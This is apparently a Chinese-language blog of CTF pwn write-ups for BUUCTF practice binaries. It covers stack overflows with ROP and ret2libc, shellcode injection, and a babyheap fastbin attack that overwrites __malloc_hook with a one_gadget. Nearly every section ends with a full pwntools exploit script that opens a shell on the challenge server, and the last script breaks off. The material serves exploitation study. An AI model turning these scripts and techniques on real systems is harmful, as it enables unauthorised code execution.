

[TOC]


## 0x10.[HarekazeCTF2019]baby_rop

没后门函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[16]; // [rsp+0h] [rbp-10h] BYREF

  system("echo -n \"What's your name? \"");
  __isoc99_scanf("%s", v4);
  printf("Welcome to the Pwn World, %s!\n", v4);
  return 0;
}
```

```python
from pwn import *
context(log_level='DEBUG')
#io = process("./babyrop")
io = remote('node3.buuoj.cn',28280)
elf = ELF('./babyrop')
io.recv()
sys_plt = elf.plt["system"]
pop_rdi_ret =0x0400683
bin_sh = 0x0601048
payload = 'a'*0x18+ p64(pop_rdi_ret)+p64(bin_sh)+p64(sys_plt)+p64(0xdeadbeef)
io.sendline(payload)
io.interactive()
```

## 0x11.jarvisoj_level2_x64

```c
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF
  system("echo Input:");
  return read(0, buf, 0x200uLL);
}
```

有/bin/sh字符串，没啥写的。

```python
from pwn import *
#io = process("./level2_x64")
io = remote('node3.buuoj.cn',28783)
elf = ELF("./level2_x64")
io.recv()
sys_plt = elf.plt['system']
pop_rdi_ret = 0x0004006b3
bin_sh = 0x00600A90
payload = 0x88*'a' +p64(pop_rdi_ret)+p64(bin_sh)+p64(sys_plt)
io.sendline(payload)
io.interactive()
```


## 0x12.ciscn_2019_n_5

啥都没开，刺激。

```
yutao@pwnbaby:~/Desktop$ checksec ciscn_2019_n_5
[*] '/home/yutao/Desktop/ciscn_2019_n_5'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

可以ret2libc或者ret2shellcode

这里要加架构名称，不然报错。

```python
from pwn import *
context(log_level='DEBUG')
context(arch='amd64',os='linux')
#io = process("./ciscn_2019_n_5")
io = remote('node3.buuoj.cn',28410)
io.recv()
payload_add = 0x0601080
payload = asm(shellcraft.sh()) 
io.send(payload)
io.recv()
payload = 'a'*0x28+p64(payload_add)
io.sendline(payload)
io.interactive()
```

注意Ubuntu18的话要加一个ret栈对齐

```python
from pwn import *
from LibcSearcher import LibcSearcher
context(log_level='DEBUG')
io = process("./ciscn_2019_n_5")
elf = ELF('./ciscn_2019_n_5')
#io = remote('node3.buuoj.cn',28410)
io.recv()
io.sendline("123")
pop_rdi_ret = 0x00400713
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main = 0x400636
io.recv()
payload = 'a'*0x28+p64(pop_rdi_ret) + p64(puts_got)+p64(puts_plt)+p64(main)
io.sendline(payload)
puts_addr = u64(io.recv(6).ljust(8, '\x00'))
libc = LibcSearcher('puts',puts_addr)
base = puts_addr - libc.dump('puts')
sys_addr = base + libc.dump('system')
bin_sh = base + libc.dump('str_bin_sh')
io.sendline(11)
ret = 0x4004c9
payload = 'a'*0x28+p64(ret)+p64(pop_rdi_ret) +p64(bin_sh)+ p64(sys_addr)
io.interactive()
```

## 0x13.ciscn_2019_ne_5

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  int v4; // [esp+0h] [ebp-100h] BYREF
  char src[4]; // [esp+4h] [ebp-FCh] BYREF
  char v6[124]; // [esp+8h] [ebp-F8h] BYREF
  char s1[4]; // [esp+84h] [ebp-7Ch] BYREF
  char v8[96]; // [esp+88h] [ebp-78h] BYREF
  int *v9; // [esp+F4h] [ebp-Ch]

  v9 = &argc;
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  fflush(stdout);
  *(_DWORD *)s1 = 48;
  memset(v8, 0, sizeof(v8));
  *(_DWORD *)src = 48;
  memset(v6, 0, sizeof(v6));
  puts("Welcome to use LFS.");
  printf("Please input admin password:");
  __isoc99_scanf("%100s", s1);
  if ( strcmp(s1, "administrator") )
  {
    puts("Password Error!");
    exit(0);
  }
  puts("Welcome!");
  puts("Input your operation:");
  puts("1.Add a log.");
  puts("2.Display all logs.");
  puts("3.Print all logs.");
  printf("0.Exit\n:");
  __isoc99_scanf("%d", &v4);
  switch ( v4 )
  {
    case 0:
      exit(0);
      return result;
    case 1:
      AddLog(src);
      result = sub_804892B(argc, argv, envp);
      break;
    case 2:
      Display(src);
      result = sub_804892B(argc, argv, envp);
      break;
    case 3:
      Print();
      result = sub_804892B(argc, argv, envp);
      break;
    case 4:
      GetFlag(src);
      result = sub_804892B(argc, argv, envp);
      break;
    default:
      result = sub_804892B(argc, argv, envp);
      break;
  }
  return result;
}
```

先输入密码为administrator，然后进入菜单。

问题出在GetFlag里：

```c
int __cdecl GetFlag(char *src)
{
  char dest[4]; // [esp+0h] [ebp-48h] BYREF
  char v3[60]; // [esp+4h] [ebp-44h] BYREF
  *(_DWORD *)dest = 48;
  memset(v3, 0, sizeof(v3));
  strcpy(dest, src);
  return printf("The flag is your log:%s\n", dest);
}
```

因为有fflush，其中的字符串sh可以代替/bin/sh

>    ROPgadget  --binary ciscn_2019_ne_5  --string "sh"

```python
from pwn import *
context(log_level='DEBUG')
io = process("./ciscn_2019_ne_5")
elf = ELF("./ciscn_2019_ne_5")
#io = remote()
sh_addr = 0x080482ea
sys_addr = elf.plt['system']
payload = 'a'*(0x48+4)+ p32(sys_addr)+p32(0xdeadbeef)+p32(sh_addr)
io.recvline()
io.sendline("administrator")
io.recvline()
io.sendline("1")
io.recvline()
io.sendline(payload)
io.recv()
io.sendline("4")
io.interactive()
```

## 0x14.铁人三项(第五赛区)_2018_rop

buf那里可以覆盖。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  be_nice_to_people();
  vulnerable_function();
  return write(1, "Hello, World\n", 0xDu);
}

ssize_t vulnerable_function()
{
  char buf[136]; // [esp+10h] [ebp-88h] BYREF

  return read(0, buf, 0x100u);
}
```

leak read或者write函数地址都OK。

```python
from pwn import *
from LibcSearcher import LibcSearcher
context(log_level='DEBUG')
#io = process("./2018_rop")
io = remote('node3.buuoj.cn',26602)
elf = ELF('./2018_rop')
write_plt = elf.plt['write']
read_got = elf.got['read']
main = 0x80484C6
payload = 'a'*(0x88+4)+p32(write_plt)+p32(main)+p32(1)+p32(read_got)+p32(4)
io.sendline(payload)
read_add = u32(io.recv())
libc = LibcSearcher('read',read_add)
base = read_add - libc.dump('read')
sys_add = base+libc.dump('system')
bin_sh = base +libc.dump('str_bin_sh')
payload ='a'*(0x88+4) + p32(sys_add)+p32(0xdeadbeef)+p32(bin_sh)
io.sendline(payload)
io.interactive()
```


## 0x14.others_shellcode

就，，完全不知道这题想表达啥，可能就是想讲一下系统调用吧。

```asm
.text:00000550 getShell        proc near               ; CODE XREF: main+D↓p
.text:00000550 ; __unwind {
.text:00000550                 push    ebp
.text:00000551                 mov     ebp, esp
.text:00000553                 call    __x86_get_pc_thunk_ax
.text:00000558                 add     eax, (offset _GLOBAL_OFFSET_TABLE_ - $)
.text:0000055D                 xor     edx, edx        ; envp
.text:0000055F                 push    edx
.text:00000560                 push    68732F2Fh
.text:00000565                 push    6E69622Fh
.text:0000056A                 mov     ebx, esp        ; file
.text:0000056C                 push    edx
.text:0000056D                 push    ebx
.text:0000056E                 mov     ecx, esp        ; argv
.text:00000570                 mov     eax, 0FFFFFFFFh
.text:00000575                 sub     eax, 0FFFFFFF4h
.text:00000578                 int     80h             ; LINUX - sys_execve
.text:0000057A                 nop
.text:0000057B                 pop     ebp
.text:0000057C                 retn
.text:0000057C ; } // starts at 550
```

```python
from pwn import *
io = remote('node3.buuoj.cn',27311)
io.interactive()
```

## 0x15.bjdctf_2020_babyrop

一上来是两个puts，然后：

```c
ssize_t vuln()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF
  puts("Pull up your sword and tell me u story!");
  return read(0, buf, 0x64uLL);
}
```

足够长，可以覆盖。

没有用LibcSearcher，一直说找不到，，，下了buu的libc好了。

```python
from pwn import *
context(log_level='DEBUG')
io = remote('node3.buuoj.cn',27222)
#io = process("./bjdctf_2020_babyrop")
elf = ELF('./bjdctf_2020_babyrop')
libc = ELF('libc-x64-2.23.so')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main = elf.sym['main']
pop_rdi_ret = 0x0000400733 

payload = 'a'*(0x20+0x8)+p64(pop_rdi_ret)+p64(puts_got)+p64(puts_plt)+p64(main)
io.recv()
io.sendline(payload)


puts_add = u64(io.recv(6).ljust(8, '\x00'))

base = puts_add - libc.sym['puts']
sys_add = base + libc.sym['system']
bin_sh = base + next(libc.search('/bin/sh'))

payload = 'a'*(0x20+0x8)+p64(pop_rdi_ret) +p64(bin_sh)+p64(sys_add)
io.send(payload)
io.recv()
io.interactive()
```

## 0x16.babyheap_0ctf_2017

```
程序有4个功能：
Allocate：calloc分配内存，并给出相应的index
FIll：输入index，并分配内存，并填充
Free：释放输入index的内存
Dump：选择index并输出
```

首先是Allocate：

```c
void __fastcall sub_D48(__int64 a1){  
    int i; // [rsp+10h] [rbp-10h]  
    int v2; // [rsp+14h] [rbp-Ch]  
    void *v3; // [rsp+18h] [rbp-8h]  
    for ( i = 0; i <= 15; ++i )  
    {    
        if ( !*(_DWORD *)(24LL * i + a1) )    
        {      
            printf("Size: ");      
            v2 = sub_138C();      
            if ( v2 > 0 )      
            {        
                if ( v2 > 4096 )          
                    v2 = 4096;        
                v3 = calloc(v2, 1uLL);        
                if ( !v3 )          
                    exit(-1);        
                *(_DWORD *)(24LL * i + a1) = 1;        
                *(_QWORD *)(a1 + 24LL * i + 8) = v2;        
                *(_QWORD *)(a1 + 24LL * i + 16) = v3;        
                printf("Allocate Index %d\n", (unsigned int)i);      
            }      
            return;    
        }  
    }
}
```

>    其中限制了大小，不能超过4096字节；
>
>    *(24LL * i + a1)为1表示chunk已经创建
>
>    *(a1 + 24LL * i + 8)：存放chunk的大小
>
>    *(a1 + 24LL * i + 16)：chunk的地址

Fill函数：

```c
__int64 __fastcall sub_E7F(__int64 a1){  
    __int64 result; // rax  
    int v2; // [rsp+18h] [rbp-8h]  
    int v3; // [rsp+1Ch] [rbp-4h]  
    printf("Index: ");  
    result = sub_138C();  
    v2 = result;  
    if ( (int)result >= 0 && (int)result <= 15 )  
    {    
        result = *(unsigned int *)(24LL * (int)result + a1);    2
            if ( (_DWORD)result == 1 )    
            {      
                printf("Size: ");      
                result = sub_138C();      
                v3 = result;      
                if ( (int)result > 0 )      
                {        
                    printf("Content: ");        
                    result = sub_11B2(*(_QWORD *)(24LL * v2 + a1 + 16), v3);      
                }    
            }  
    }  
    return result;
}
```

>   先判断对应的位置是否为1，即chunk是否创建
>
>   然后将v3长度的内容写到*(24LL * v2 + a1 + 16)的地址中

Free函数

```c
__int64 __fastcall sub_F50(__int64 a1){  
    __int64 result; // rax  
    int v2; // [rsp+1Ch] [rbp-4h] 
    printf("Index: ");  
    result = sub_138C();  
    v2 = result; 
    if ( (int)result >= 0 && (int)result <= 15 ) 
    {   
        result = *(unsigned int *)(24LL * (int)result + a1);  
        if ( (_DWORD)result == 1 )   
        {   
            *(_DWORD *)(24LL * v2 + a1) = 0;     
         *(_QWORD *)(24LL * v2 + a1 + 8) = 0LL;   
            free(*(void **)(24LL * v2 + a1 + 16));   
            result = 24LL * v2 + a1;    
            *(_QWORD *)(result + 16) = 0LL; 
        } 
    }  
    return result;
}
```

>   输入index，如果对应的位置是1：
>
>   置0，将记录chunk大小的位置标记为0，释放指针*(24LL * v2 + a1 + 16)对应的内存

Dump函数：

```c
int __fastcall sub_1051(__int64 a1){  
    int result; // eax  
    int v2; // [rsp+1Ch] [rbp-4h]  
    printf("Index: ");  
    result = sub_138C();  
    v2 = result;  
    if ( result >= 0 && result <= 15 )  
    {    
        result = *(_DWORD *)(24LL * result + a1);    
        if ( result == 1 )   
        {      
            puts("Content: ");     
            sub_130F(*(_QWORD *)(24LL * v2 + a1 + 16), *(_QWORD *)(24LL * v2 + a1 + 8));      
            result = puts(byte_14F1);    
        }  
    } 
    return result;
}
```

>   输入index，若标志位为1，打印*(24LL * v2 + a1 + 16)位置，长度为*(24LL * v2 + a1 + 8)的内容。


没有uaf，内存free掉后不能查看其中的内容，但是可以double free获得指向small bin的index，释放后通过dump打印出来。

首先分配一些相同大小的fast chunk ，在分配一个small chunk，释放掉其中的一个fast chunk。

```text
allocate(10)#chunk0
allocate(10)#chunk1
allocate(10)#chunk2
allocate(10)#chunk3
allocate(80)#chunk4
free(1)
```

```text
pwndbg> x/32gx  
0x5579684280000x557968428000:	0x0000000000000000	0x0000000000000021 <=chunk0
0x557968428010:	0x0000000000000000	0x0000000000000000
0x557968428020:	0x0000000000000000	0x0000000000000021 <=chunk1
0x557968428030:	0x0000000000000000	0x0000000000000000
0x557968428040:	0x0000000000000000	0x0000000000000021 <=chunk2
0x557968428050:	0x0000000000000000	0x0000000000000000
0x557968428060:	0x0000000000000000	0x0000000000000021 <=chunk3
0x557968428070:	0x0000000000000000	0x0000000000000000
0x557968428080:	0x0000000000000000	0x0000000000000061 <=chunk4
0x557968428090:	0x0000000000000000	0x0000000000000000
0x5579684280a0:	0x0000000000000000	0x0000000000000000
0x5579684280b0:	0x0000000000000000	0x0000000000000000
0x5579684280c0:	0x0000000000000000	0x0000000000000000
0x5579684280d0:	0x0000000000000000	0x0000000000000000
0x5579684280e0:	0x0000000000000000	0x0000000000020f21
0x5579684280f0:	0x0000000000000000	0x0000000000000000
pwndbg> x/32gx &main_arena
0x7f063731bb20 <main_arena>:	0x0000000000000000	0x0000557968428020
0x7f063731bb30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7f063731bb40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7f063731bb50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7f063731bb60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7f063731bb70 <main_arena+80>:	0x0000000000000000	0x00005579684280e0
0x7f063731bb80 <main_arena+96>:	0x0000000000000000	0x00007f063731bb78
0x7f063731bb90 <main_arena+112>:	0x00007f063731bb78	0x00007f063731bb88
0x7f063731bba0 <main_arena+128>:	0x00007f063731bb88	0x00007f063731bb98
0x7f063731bbb0 <main_arena+144>:	0x00007f063731bb98	0x00007f063731bba8
0x7f063731bbc0 <main_arena+160>:	0x00007f063731bba8	0x00007f063731bbb8
0x7f063731bbd0 <main_arena+176>:	0x00007f063731bbb8	0x00007f063731bbc8
0x7f063731bbe0 <main_arena+192>:	0x00007f063731bbc8	0x00007f063731bbd8
0x7f063731bbf0 <main_arena+208>:	0x00007f063731bbd8	0x00007f063731bbe8
0x7f063731bc00 <main_arena+224>:	0x00007f063731bbe8	0x00007f063731bbf8
0x7f063731bc10 <main_arena+240>:	0x00007f063731bbf8	0x00007f063731bc08
```

可以看到释放的fast chunk被放到了fast bin中，fast bin为单链结构，如果再释放一个free(2)，那么会插入到fast bin的头部，释放的第二个chunk的fd会被设置成第一个chunk的地址：

```
pwndbg> x/32gx &main_arena
0x7f8ff509db20 <main_arena>:	0x0000000000000000	0x000055d82f950040
0x7f8ff509db30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7f8ff509db40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7f8ff509db50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7f8ff509db60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7f8ff509db70 <main_arena+80>:	0x0000000000000000	0x000055d82f9500e0
0x7f8ff509db80 <main_arena+96>:	0x0000000000000000	0x00007f8ff509db78
0x7f8ff509db90 <main_arena+112>:	0x00007f8ff509db78	0x00007f8ff509db88
0x7f8ff509dba0 <main_arena+128>:	0x00007f8ff509db88	0x00007f8ff509db98
0x7f8ff509dbb0 <main_arena+144>:	0x00007f8ff509db98	0x00007f8ff509dba8
0x7f8ff509dbc0 <main_arena+160>:	0x00007f8ff509dba8	0x00007f8ff509dbb8
0x7f8ff509dbd0 <main_arena+176>:	0x00007f8ff509dbb8	0x00007f8ff509dbc8
0x7f8ff509dbe0 <main_arena+192>:	0x00007f8ff509dbc8	0x00007f8ff509dbd8
0x7f8ff509dbf0 <main_arena+208>:	0x00007f8ff509dbd8	0x00007f8ff509dbe8
0x7f8ff509dc00 <main_arena+224>:	0x00007f8ff509dbe8	0x00007f8ff509dbf8
0x7f8ff509dc10 <main_arena+240>:	0x00007f8ff509dbf8	0x00007f8ff509dc08
```

```python
pwndbg> bin
fastbins
0x20: 0x55d82f950040 —▸ 0x55d82f950020 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
pwndbg> heap
0x55d82f950000 FASTBIN {
  prev_size = 0, 
  size = 33, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x21
}
0x55d82f950020 FASTBIN {
  prev_size = 0, 
  size = 33, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x21
}
0x55d82f950040 FASTBIN {
  prev_size = 0, 
  size = 33, 
  fd = 0x55d82f950020, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x21
}
0x55d82f950060 FASTBIN {
  prev_size = 0, 
  size = 33, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x61
}
0x55d82f950080 FASTBIN {
  prev_size = 0, 
  size = 97, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x55d82f9500e0 PREV_INUSE {
  prev_size = 0, 
  size = 134945, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```

这时使用fill覆盖fast bin头部(即chunk2)的fd的值，将其改为small chunk的地址，这相当于small bin已经被free在fast bin中了。

```python
payload = p64(0) * 3
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x21)#chunk2
payload += p8(0x80)#地址低位
fill(0,payload)
```

然后：

```python
payload = p64(0) * 3
payload += p64(0x21)#chunk4_size
fill(3,payload)
```

这时：

```
pwndbg> x/32gx 0x557ac06f3000
0x557ac06f3000:	0x0000000000000000	0x0000000000000021 <=chunk0
0x557ac06f3010:	0x0000000000000000	0x0000000000000000
0x557ac06f3020:	0x0000000000000000	0x0000000000000021 <=chunk1
0x557ac06f3030:	0x0000000000000000	0x0000000000000000
0x557ac06f3040:	0x0000000000000000	0x0000000000000021 <=chunk2
0x557ac06f3050:	0x0000557ac06f3080	0x0000000000000000
0x557ac06f3060:	0x0000000000000000	0x0000000000000021 <=chunk3
0x557ac06f3070:	0x0000000000000000	0x0000000000000000
0x557ac06f3080:	0x0000000000000000	0x0000000000000021 <=chunk4
0x557ac06f3090:	0x0000000000000000	0x0000000000000000
0x557ac06f30a0:	0x0000000000000000	0x0000000000000000
0x557ac06f30b0:	0x0000000000000000	0x0000000000000000
0x557ac06f30c0:	0x0000000000000000	0x0000000000000000
0x557ac06f30d0:	0x0000000000000000	0x0000000000000000
0x557ac06f30e0:	0x0000000000000000	0x0000000000020f21
0x557ac06f30f0:	0x0000000000000000	0x0000000000000000
```

接下来要malloc回chunk4，但是malloc fastbin有检查，chunksize必须和fastbin_index匹配。

所以覆盖chunk4的size为fastbin大小

```python
allocate(0x10)allocate(0x10)payload = p64(0) * 3payload += p64(0x91)fill(3,payload)allocate(0x80)free(4)libc_base = u64(dump(2)[:8].strip().ljust(8, "\x00"))-0x3c4b78
```

>   ​		unsortbin 有一个特性，就是如果 usortbin 只有一个 bin ，它的 fd 和 bk 指针会指向同一个地址(unsorted bin 链表的头部），这个地址为 main_arena + 0x58 ，而且 main_arena 又相对 libc 固定偏移 0x3c4b20 ，所以得到这个fd的值，然后减去0x58再减去main_arena相对于libc的固定偏移，即得到libc的基地址。所以我们需要把 chunk 改成大于 fastbin 的大小，这样 free 后能进入 unsortbin 让我们能够泄露 libc 基址。
>     我们的目标是覆盖 __malloc_hook 函数，这样我们调用 malloc 时就相当于调用我们写入的内容
>
>   ​		**malloc_hook 是一个 libc 上的函数指针，调用 malloc 时如果该指针不为空则执行它指向的函数，可以通过写** malloc_hook 来 getshell。

```
pwndbg> x/32xg (long long)(&main_arena)-0x400x7f12e66c5ae0 <_IO_wide_data_0+288>:	0x0000000000000000	0x00000000000000000x7f12e66c5af0 <_IO_wide_data_0+304>:	0x00007f12e66c4260	0x00000000000000000x7f12e66c5b00 <__memalign_hook>:	0x00007f12e6386ea0	0x00007f12e6386a700x7f12e66c5b10 <__malloc_hook>:	0x0000000000000000	0x00000000000000000x7f12e66c5b20 <main_arena>:	0x0000000000000000	0x0000557ac06f30400x7f12e66c5b30 <main_arena+16>:	0x0000000000000000	0x00000000000000000x7f12e66c5b40 <main_arena+32>:	0x0000000000000000	0x00000000000000000x7f12e66c5b50 <main_arena+48>:	0x0000000000000000	0x00000000000000000x7f12e66c5b60 <main_arena+64>:	0x0000000000000000	0x00000000000000000x7f12e66c5b70 <main_arena+80>:	0x0000000000000000	0x0000557ac06f30e00x7f12e66c5b80 <main_arena+96>:	0x0000000000000000	0x00007f12e66c5b780x7f12e66c5b90 <main_arena+112>:	0x00007f12e66c5b78	0x00007f12e66c5b880x7f12e66c5ba0 <main_arena+128>:	0x00007f12e66c5b88	0x00007f12e66c5b980x7f12e66c5bb0 <main_arena+144>:	0x00007f12e66c5b98	0x00007f12e66c5ba80x7f12e66c5bc0 <main_arena+160>:	0x00007f12e66c5ba8	0x00007f12e66c5bb80x7f12e66c5bd0 <main_arena+176>:	0x00007f12e66c5bb8	0x00007f12e66c5bc8
```

同样的，这里我们也要绕过 malloc 的安全检查，chunksize 必须与 fastbin_index 相对应，初看 __malloc_hook 附近没有合适的 chunksize，这里需要巧妙的偏移一下。

```
pwndbg> x/32xg (long long)(&main_arena)-0x40+0xd
0x7f12e66c5aed <_IO_wide_data_0+301>:	0x12e66c4260000000	0x000000000000007f <=fake chunk
0x7f12e66c5afd:	0x12e6386ea0000000	0x12e6386a7000007f
0x7f12e66c5b0d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7f12e66c5b1d:	0x0000000000000000	0x7ac06f3040000000
0x7f12e66c5b2d <main_arena+13>:	0x0000000000000055	0x0000000000000000
0x7f12e66c5b3d <main_arena+29>:	0x0000000000000000	0x0000000000000000
0x7f12e66c5b4d <main_arena+45>:	0x0000000000000000	0x0000000000000000
0x7f12e66c5b5d <main_arena+61>:	0x0000000000000000	0x0000000000000000
0x7f12e66c5b6d <main_arena+77>:	0x0000000000000000	0x7ac06f30e0000000
0x7f12e66c5b7d <main_arena+93>:	0x0000000000000055	0x12e66c5b78000000
0x7f12e66c5b8d <main_arena+109>:	0x12e66c5b7800007f	0x12e66c5b8800007f
0x7f12e66c5b9d <main_arena+125>:	0x12e66c5b8800007f	0x12e66c5b9800007f
0x7f12e66c5bad <main_arena+141>:	0x12e66c5b9800007f	0x12e66c5ba800007f
0x7f12e66c5bbd <main_arena+157>:	0x12e66c5ba800007f	0x12e66c5bb800007f
0x7f12e66c5bcd <main_arena+173>:	0x12e66c5bb800007f	0x12e66c5bc800007f
0x7f12e66c5bdd <main_arena+189>:	0x12e66c5bc800007f	0x12e66c5bd800007f
```

在0x7f12e66c5aed，这样就可以构造出一个index为5的fastbin，这样就可以改写__malloc_hook了。

```python
allocate(0x60)
free(4)
payload = p64(libc_base+0x3c4aed)
fill(2, payload)
```

 首先把 chunk 4 malloc 回来，这次 malloc 的大小在 fastbin 之内，然后把 chunk 4 的内容改为我们下一个要构造块的地址（chunk 4 已经被 free 掉，所以无法用 fill(4) 写入，由于我们刚刚把 chunk 2 的 fd 指针改为 chunk 4 的地址，所以第一次 malloc(0x10) 的时候是分配的原来 chunk 2 的块给 index 1，第二次 malloc(0x10) 的时候就会分配 chunk 4 的块给 index 2，也就是说 index 2 与 index 4 的内容都是 chunk 4）

这里介绍一个神奇的工具 one gadget，只用一个 gadget 地址就可以成功调用 execve("/bin/sh")。

```
gwt@ubuntu:~/Desktop$ one_gadget libc-x64-2.23.so 
[OneGadget] 
Checking for new versions of OneGadget            
To disable this functionality, do            
$ echo never > /home/gwt/.cache/one_gadget/update[OneGadget] 
A newer version of OneGadget is available (1.6.2 --> 1.7.4).            
Update with: $ gem update one_gadget && gem cleanup one_gadget0x45216	
execve("/bin/sh", rsp+0x30, environ)constraints:  rax == NULL0x4526a	
execve("/bin/sh", rsp+0x30, environ)constraints:  [rsp+0x30] == NULL0xf02a4	
execve("/bin/sh", rsp+0x50, environ)constraints:  [rsp+0x50] == NULL0xf1147	
execve("/bin/sh", rsp+0x70, environ)constraints:  [rsp+0x70] == NULL
```

在 __malloc_hook 地址处写入 one_gadget ，这样再次 allocate 就可以调用 one_gadget 拿 shell

EXP:

```python
from pwn import *
from LibcSearcher import *
context(log_level='DEBUG')
#io = process('./babyheap_0ctf_2017')
io = remote("node3.buuoj.cn", 28982)
libc = ELF("libc-x64-2.23.so")
def allocate(size):
	io.recvuntil("Command: ")
	io.sendline("1")#allocate
	io.recvuntil("Size: ")
	io.sendline(str(size))

def fill(index,content):
	io.recvuntil('Command: ')
	io.sendline('2')
	io.recvuntil('Index: ')
	io.sendline(str(index))
	io.recvuntil('Size: ')
	io.sendline(str(len(content)))
	io.recvuntil('Content: ')
	io.send(content)


def free(index):
	io.recvuntil("Command: ")
	io.sendline("3")#free
	io.recvuntil("Index: ")
	io.sendline(str(index))

def dump(index):
	io.recvuntil("Command: ")
	io.sendline("4")
	io.recvuntil("Index: ")
	io.sendline(str(index))

allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x80)
free(1)
free(2)

payload = p64(0) * 3
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x21)
payload += p8(0x80)

fill(0,payload)
payload = p64(0) * 3
payload += p64(0x21)
fill(3,payload)
allocate(0x10)
allocate(0x10)

payload = p64(0) * 3
payload += p64(0x91)

fill(3,payload)
allocate(0x80)
free(4)

dump(2)
io.recvuntil("Content: \n")

libc_base = u64(io.recv(8)) - 0x3c4b78
malloc_hook = libc_base + libc.symbols['__malloc_hook']

allocate(0x60)
free(4)
payload = p64(malloc_hook - 35)
fill(2, payload)
 
allocate(0x60)
allocate(0x60)
 
payload = p8(0)*3
payload += p64(0)*2
payload += p64(libc_base+0x4526a)
fill(6, payload)
 
allocate(50)
io.interactive()
```


## 0x17.pwn2_sctf_2016

get_n函数的第二个参数是unsigned int，可以整数溢出。

接收了两次you said，第一次是程序本身，第二次是自己的format。

```python
from pwn import *
from LibcSearcher import *
context(log_level='DEBUG')
io = remote("node3.buuoj.cn",25915)
#io = process("./pwn2_sctf_2016")
elf = ELF("./pwn2_sctf_2016")
libc = ELF("./libc-2.23.so")
io.recv()
printf_plt = elf.plt['printf']
vuln_addr = 0x0804852F
fmt_addr = 0x080486F8
printf_got = elf.got['printf']
payload = 'a'*(0x2c+4)+p32(printf_plt) +p32(vuln_addr)+p32(fmt_addr)+p32(printf_got)

io.sendline("-1")
io.sendline(payload)
io.recvuntil("You said: ")
io.recvuntil("You said: ")
printf_addr = u32(io.recv(4))
print hex(printf_addr)

libc_base = printf_addr - libc.sym['printf']

system_addr = libc_base + libc.sym['system']
bin_sh = libc_base + next(libc.search('/bin/sh'))
io.recv()
io.sendline("-1")

payload = 'a'*(0x2c+4) + p32(system_addr)+p32(0xdeadbeef)+p32(bin_sh)
io.sendline(payload)

io.interactive()
```


## 0x18.ciscn_2019_s_3

　　32位与64位 系统调用的区别：

>1. 传参方式不同
>
>2. 系统调用号 不同
>
>3. 调用方式 不同

　　32位：

```
传参方式：首先将系统调用号 传入 eax，然后将参数 从左到右 依次存入 ebx，ecx，edx寄存器中，返回值存在eax寄存器

调用号：sys_read 的调用号 为 3 sys_write 的调用号 为 4

调用方式: 使用 int 80h 中断进行系统调用
```

　　64位：

```
传参方式：首先将系统调用号 传入 rax，然后将参数 从左到右 依次存入 rdi，rsi，rdx寄存器中，返回值存在rax寄存器

调用号：sys_read 的调用号 为 0 sys_write 的调用号 为 1

stub_execve 的调用号 为 59 stub_rt_sigreturn 的调用号 为 15

调用方式: 使用 syscall 进行系统调用
```

调用：\$rax\=\=59，\$rdi\=\=“/bin/sh”，\$rsi\=\=0，\$rdx\=\=0

首先往栈上写0x400，然后从栈上读0x30

经过调试发现输入后返回的是写入栈上的位置。


将0x00007ffe7d621e58减去0x00007ffe7d621d40得到0x118（固定）

所以经过recv的地址减去0x118就是写入/bin/sh的地址

有个gadgets函数：


其中的0x3B就是59，系统调用，

> hex(0x00007ffe7d621e58 - 0x7ffe7d621d40)
> '0x118'



r12是将要执行的地址。

```python
from pwn import *
io = remote('node3.buuoj.cn',26613)
#io = process("./ciscn_s_3")
vulun_addr = 0x4004ED
